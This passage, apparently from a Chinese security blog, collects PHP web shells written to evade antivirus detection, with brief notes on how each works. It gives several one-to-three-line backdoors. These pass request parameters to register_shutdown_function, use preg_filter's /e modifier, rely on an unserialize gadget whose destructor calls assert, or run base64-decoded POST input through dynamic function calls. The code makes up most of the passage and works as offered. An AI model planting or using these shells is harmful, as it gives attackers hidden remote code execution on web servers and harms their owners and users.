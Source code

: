 ```php
<?php 
$fun = $_REQUEST['fun'];register_shutdown_function($fun,$_REQUEST['req']);
?>
```

>register_shutdown_function该函数是来注册一个会在PHP中止时执行的函数
>void register_shutdown_function ( callable $callback [, mixed $parameter [, mixed $... ]] ) 
>注册一个 callback ，它会在脚本执行完成或者 exit() 后被调用。

![img](https://klionsec.github.io/img/register_shutdown_function%20spec.png)

```php
<?php echo preg_filter('|.*|e',$_REQUEST['req'],'')?>
```

![img](https://klionsec.github.io/img/preg_filter%20shell.png)

利用序列化与反序列化免杀,简单来讲原理类似反序列化漏洞,因为成员变量可控,在析构的时造成的代码执行:

```php
<?php
class shell{
    public $code="tmpdata";
    function __destruct()
    {
       assert($this->code);
    }
}
$ser = $_GET['serdata'];
unserialize($ser);
```

序列化后的数据

```php
<?php
class shell{
    public $code="phpinfo();";
}
$reload = new shell;
$res = serialize($reload);
echo $res;
```



![img](https://klionsec.github.io/img/serialize.png)

编码配合动态函数:

```php
<?php 
$fun = base64_decode($_POST[fun]);
$code = base64_decode($_POST[code]);
$arr = array("a"=>$fun);
$a = "${ $arr['a']($code)}";
?>
```
